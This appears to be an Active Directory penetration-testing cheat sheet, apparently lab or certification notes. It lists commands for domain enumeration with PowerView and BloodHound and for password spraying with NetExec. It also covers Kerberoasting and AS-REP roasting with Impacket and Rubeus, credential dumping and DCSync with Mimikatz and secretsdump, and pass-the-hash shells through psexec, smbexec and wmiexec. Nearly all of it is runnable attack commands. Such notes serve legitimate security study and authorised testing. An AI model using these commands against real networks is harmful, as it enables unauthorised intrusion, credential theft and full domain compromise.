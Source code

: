 ## Enumeration Phase

Use PowerView

- Import-Module .\PowerView.ps1
- Get-NetDomain
- Get-DomainPolicy
- Get-NetDomainController
- Get-NetUser / Get-NetUser -AdminCount 1
- Get-NetGroup / Get-NetGroupMember -GroupName $groupName
- Get-NetSession
- Get-NetComputer
- Invoke-ShareFinder
- Get-NetGPO
- Get-NetUser -SPN
- Get-NetOU
- Invoke-UserHunter
- Invoke-Kerberoast

Use Bloodhound

- sudo neo4j start
- sudo bloodhound

Use SharpHound

- Import-Module .\Sharphound.ps1
- Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "FileName"

Check SYSVOL Share Drive

- Find-DomainShare -CheckShareAccess

## User obtained

Spray the network

- nxc winrm 10.1.1.1/24 -u 'test' -p 'pass'
- nxc smb 10.1.1.0/24 -u 'user' -p 'pass' --users
- nxc smb 10.1.1.0/24 -u 'user' -p 'pass' --pass-pol
- nxc smb 10.1.1.0/24 -u 'user' -p 'pass' --shares
- nxc smb 10.1.1.1 -u /path/to/users.txt -p Password1 --continue-on-success
- smbclient -L $ip -U userName
- smbclient -U userName //$ip/share
- Impacket-GetADUsers -all -user userName -dc-ip $ip

Kerberoasting

- GetUserSPNs.py -request -dc-ip $ip domain/userName
- GetNPusers.py -dc-ip $ip -request domain/ListOfUsers
- impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast domain/user
- impacket-GetUserSPNs domain/user:'password' -dc-ip $ip -debug -outputfile kerberoast.tx
- .\Rubeus.exe kerberoast /outfile:hashes.kerberoast

## Admin obtained

Mimikatz Dump
LaZagne Dump
Check for SAM & SYSTEM
Check for Window.Old folder

## BloodHound Vector Attack

GenericWrite

- assign SPN to target then do keberoasting

WriteDACL

- DCsync attack
  - Need user to have 1 of these _Replicating Directory Changes_, *Replicating Directory Changes All*, and *Replicating Directory Changes in Filtered Set*
  - Use mimikatz and run lsadump::dcsync /user:corp\user-name
  - Use impacket-secretsdump -just-dc-user dave domain/user-name:Password@dc-ip

## Getting A Shell

psexec

- psexec.py domain/user:Password@10.10.10.100
- psexec.py -hashes 00000000000000000000000000000000:ntlm-hash user@$ip
- psexec.py user@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

smbexec.py

- smbexec.py domain/User:Password@$ip

wmiexec.py

- wmiexec.py domain/user:Password@$ip

smbclient

- smbclient \\\\ip-address\\share-drive -U user --pw-nt-hash $ntlm-hash
